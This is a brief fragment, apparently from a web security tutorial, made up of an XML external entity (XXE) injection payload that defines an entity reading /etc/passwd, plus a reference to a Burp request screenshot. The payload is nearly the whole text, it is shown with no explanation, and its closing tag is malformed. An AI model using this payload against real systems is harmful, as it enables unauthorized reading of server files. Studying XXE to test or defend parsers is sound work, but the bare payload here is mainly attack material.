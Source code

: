 ```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE exp [
    <!ENTITY pass SYSTEM "file:///etc/passwd">
]>
<exp>
    &pass;
<exp>
```

![BurpRequestXXEInjection.png](assets/1708583913-4f8829b7728189323e502e9401adcbc7.png)  
